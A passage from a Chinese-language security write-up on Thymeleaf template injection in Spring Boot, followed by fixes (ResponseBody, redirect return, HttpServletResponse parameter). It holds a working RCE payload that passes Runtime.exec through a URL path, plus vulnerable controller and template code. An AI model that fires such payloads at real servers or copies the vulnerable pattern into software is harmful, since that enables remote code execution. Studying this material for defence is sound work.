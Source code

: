 ```
@GetMapping("/doc/{document}")
public void getDocument(@PathVariable String document) {
    log.info("Retrieving " + document);
}
```

```
GET /doc/__${T(java.lang.Runtime).getRuntime().exec("touch executed")}__::.x
```

至于如何bypass不用多说了吧。

## 0x05:key:如果模板内容可控能否bypass?

这种低版本，直接嗦了~~

```html
<!DOCTYPE html>
<html lang="en" xmlns="http://www.w3.org/1999/xhtml"
      xmlns:th="http://www.thymeleaf.org">
<head>
    <title>Hello World!</title>
</head>
<body>
<h1 th:inline="text">Hello</h1>
<p th:text="@{__${exp}__}"></p>
</body>
</html>
```



## 0x05修复方案

### 1. 设置ResponseBody注解

如果设置`ResponseBody`，则不再调用模板解析

### 2. 设置redirect重定向

```
@GetMapping("/safe/redirect")
public String redirect(@RequestParam String url) {
    return "redirect:" + url; //CWE-601, as we can control the hostname in redirect
```

根据spring boot定义，如果名称以`redirect:`开头，则不再调用`ThymeleafView`解析，调用`RedirectView`去解析`controller`的返回值

### 3. response

```
@GetMapping("/safe/doc/{document}")
public void getDocument(@PathVariable String document, HttpServletResponse response) {
    log.info("Retrieving " + document); //FP
}
```
